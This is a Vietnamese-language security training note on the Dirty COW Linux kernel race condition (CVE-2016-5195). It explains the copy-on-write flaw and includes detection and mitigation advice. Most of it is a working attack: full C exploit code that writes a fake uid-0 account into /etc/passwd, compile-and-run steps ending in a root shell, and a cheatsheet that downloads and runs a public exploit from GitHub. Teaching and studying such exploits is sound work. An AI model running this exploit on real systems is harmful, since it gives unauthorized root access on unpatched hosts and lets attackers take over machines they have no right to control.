

> **Prerequisites**: [[08-race-condition-toctou|08. Race Condition & TOCTOU]]
> **Objectives**:
> - Hiểu cơ chế copy-on-write của Linux memory management
> - Phân tích tại sao race condition trong COW dẫn đến write vào read-only file
> - Reproduce Dirty COW exploit trên kernel cũ (< 4.8.3)
> - Hiểu tại sao CVE này vẫn quan trọng như một case study
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Kernel < 4.8.3 (patch released October 2016)
> - Bất kỳ user nào — không cần privileges
> - Target file cần ghi phải readable (world-readable, như /etc/passwd)
>
> [!warning] CVE-2016-5195 đã được patch
> Tất cả kernel hiện đại đã có patch. Lesson này là case study để hiểu race condition + COW mechanism — pattern này tái xuất hiện trong nhiều CVEs sau.
>
---

## Cơ chế tấn công

### Copy-on-Write (COW) trong Linux Memory

Khi một process `mmap()` một file với `MAP_PRIVATE`:
- Kernel không copy ngay — chỉ map vào cùng physical pages
- Khi process ghi vào mapping → kernel tạo **private copy** của page → ghi vào copy (không ảnh hưởng file gốc)
- Đây là cơ chế COW — lazy copy để tiết kiệm memory

```text
Normal COW flow:
  Process: mmap(file, PROT_READ, MAP_PRIVATE)
  Process: write to mmap → SIGSEGV (vì PROT_READ không có PROT_WRITE)

  Nhưng với /proc/self/mem trick:
  Process: write to mmap via /proc/self/mem → kernel handles differently
  → Kernel thực hiện COW để tạo private copy
  → Trong khoảng giữa "tạo copy" và "ghi vào copy": RACE WINDOW
```

### Race Condition — Dirty COW

Bug: Có race giữa hai thao tác trong kernel:

```text
Thread 1: write(proc_mem_fd, data, len)
          → kernel cố ghi vào mmap address
          → COW trigger: create private copy
          [RACE WINDOW: giữa copy creation và actual write]

Thread 2: madvise(mmap_addr, MADV_DONTNEED)
          → discard private copy ngay trong window
          → kernel fall back: dùng lại original page (file page)

Thread 1 tiếp tục ghi → ghi thẳng vào file page → FILE BỊ MODIFIED!
```

### Tại sao "Dirty" COW?

"Dirty" vì page bị mark là "dirty" (cần ghi vào disk) mà không qua đúng COW process — bug trong dirty bit handling của kernel page tables.

---

## Quy trình tấn công

**Môi trường**: Linux kernel < 4.8.3 (Ubuntu 16.04 LTS không patch là ví dụ điển hình).

**Bước 1 — Xác nhận kernel version**

```bash
uname -r
# 4.4.0-31-generic → vulnerable
# 5.15.0-91-generic → patched
```

**Bước 2 — Xác định target file**

```bash
# Classic target: /etc/passwd (world-readable)
ls -la /etc/passwd
# -rw-r--r-- 1 root root 1872 Jan 1 00:00 /etc/passwd
# readable by all → can mmap → can exploit Dirty COW
```

**Bước 3 — Dirty COW exploit (simplified)**

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/types.h>

// Target: ghi "root:x:0:0:..." với password hash của chúng ta
// vào /etc/passwd để tạo root-equivalent entry

volatile int stop = 0;
void *map;
int fd_proc_mem;
int fd_file;
struct stat st;

const char *target_string = "\ndc:x:0:0::/root:/bin/bash\n";  // fake root entry
// dc = new username với uid=0

void *thread_write(void *arg) {
    // Thread 1: ghi vào mmap qua /proc/self/mem
    while (!stop) {
        lseek(fd_proc_mem, (off_t)map, SEEK_SET);
        write(fd_proc_mem, target_string, strlen(target_string));
    }
    return NULL;
}

void *thread_madvise(void *arg) {
    // Thread 2: MADV_DONTNEED → discard private copy
    while (!stop) {
        madvise(map, 100, MADV_DONTNEED);
    }
    return NULL;
}

int main(int argc, char *argv[]) {
    // Mở target file
    fd_file = open("/etc/passwd", O_RDONLY);
    fstat(fd_file, &st);

    // mmap với MAP_PRIVATE (read-only mapping)
    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd_file, 0);
    printf("[*] mmap @ %p\n", map);

    // Mở /proc/self/mem để write qua virtual address space
    fd_proc_mem = open("/proc/self/mem", O_RDWR);

    // Tìm vị trí cần insert
    char *pos = memmem(map, st.st_size, "root:x:0:", 9);
    if (!pos) { fprintf(stderr, "Pattern not found\n"); return 1; }
    // Ghi sau dòng root, trước dòng daemon
    map = pos + strlen("root:x:0:0:root:/root:/bin/bash\n");

    // Chạy hai threads
    pthread_t t1, t2;
    pthread_create(&t1, NULL, thread_write, NULL);
    pthread_create(&t2, NULL, thread_madvise, NULL);

    // Chờ vài giây
    sleep(3);
    stop = 1;
    pthread_join(t1, NULL);
    pthread_join(t2, NULL);

    // Verify
    printf("[*] Checking /etc/passwd...\n");
    system("grep 'dc:x:0:0' /etc/passwd && echo '[+] SUCCESS!'");

    return 0;
}
```

**Bước 4 — Compile và run**

```bash
gcc dirty_cow.c -lpthread -o dirty_cow
./dirty_cow
# Sau vài giây:
# [+] SUCCESS!

# Escalate:
su dc    # password: trống hoặc set trong hash
# uid=0(root)
```

> **Expected output**: `dc:x:0:0` xuất hiện trong `/etc/passwd`, `su dc` → root shell.
>
---

## Biến thể & Công cụ

### SUID shell variant (dirtycow.ninja variant)

Thay vì modify `/etc/passwd`, tạo SUID shell:

```c
// Ghi vào writable mapping của /tmp/dirtycow_suid
// Thay đổi binary để có SUID bit... (phức tạp hơn)
// Reference: github.com/dirtycow/dirtycow.github.io
```

### Phiên bản tự động hóa

```bash
# Nhiều PoC có sẵn:
# github.com/FireFart/dirtycow → tự động modify /etc/passwd
# Compile và run: ./dirty    (passwd version)
# Mật khẩu mặc định: firefart
su firefart   # → root
```

### Trong container context

Dirty COW có thể escape container nếu host kernel vulnerable — vì kernel là shared:

```bash
# Từ trong container (kernel shared với host):
# Dirty COW exploit vẫn chạy trên shared kernel
# Nhưng kết quả chỉ affect container filesystem (qua overlayfs)
# Trừ khi ghi được vào host-mounted file
```

---

## Cây quyết định



---

## Command Cheatsheet

**Check vulnerability**

```bash
uname -r | python3 -c "
import sys
r=sys.stdin.read().strip().split('.')
major,minor=int(r[0]),int(r[1])
patch=int(r[2].split('-')[0]) if len(r)>2 else 0
if major<4 or (major==4 and minor<8) or (major==4 and minor==8 and patch<3):
    print('VULNERABLE to Dirty COW')
else:
    print('Patched (kernel >= 4.8.3)')
"
```

**Quick exploit**

```bash
# Download và compile FireFart's version:
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty [password]    # default: firefart:firefart
# Wait ~20s → su firefart → root
```

---

## Daily Drill

**Thời gian**: 15 phút một lần (không cần daily — một lần để hiểu).

**Drill 1 — Giải thích COW mechanism**
Mục tiêu: Giải thích race condition không nhìn notes.

```text
mmap(PRIVATE) → write via /proc/mem → COW trigger → madvise(DONTNEED) → discard copy → write to file
```

**Drill 2 — Reproduce trên kernel cũ**
Setup Ubuntu 16.04 trong VM, compile và run để thấy kết quả thực tế.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **File integrity**: `/etc/passwd` bị modify mà không có sudo/useradd call → IMA/AIDE alert
> **Audit**: mmap + /proc/self/mem access pattern + madvise DONTNEED trong tight loop
> **Process**: Hai threads racing trên cùng memory region → anomaly
>
> [!note] Mitigation
> - **Patch kernel >= 4.8.3** — đây là fix dứt điểm
> - Immutable /etc/passwd với `chattr +i /etc/passwd` (workaround không đủ)
> - IMA (Integrity Measurement Architecture) để detect file modification
> - Read-only rootfs trong containers
>
---

## Lab Thực hành

| Platform | Setup | Tại sao phù hợp |
|----------|-------|----------------|
| Local VM | Ubuntu 16.04 (kernel 4.4) | Reproduce nguyên gốc |
| HTB | Old retired machines | Một số machine cũ có kernel 4.x |
| VulnHub | Machines with kernel 4.x | Multiple targets để practice |

---

## Field Manual Entry

> [!abstract] Dirty COW (CVE-2016-5195) — Quick Reference
> **Điều kiện**: Kernel < 4.8.3; bất kỳ user; world-readable target file
> **Cơ chế**: mmap(PRIVATE) + write(/proc/self/mem) + madvise(DONTNEED) racing → ghi vào read-only file
> **Quick exploit**: `gcc -pthread dirty.c -o dirty -lcrypt; ./dirty [pass]` → `su firefart`
> **Check**: `uname -r` → < 4.8.3 = vulnerable
> **Modern relevance**: Pattern COW + race tái xuất hiện trong CVE-2022-2590, CVE-2023-xxxx
> **Ref**: [[22-dirty-cow|22. Dirty COW — CVE-2016-5195]]
>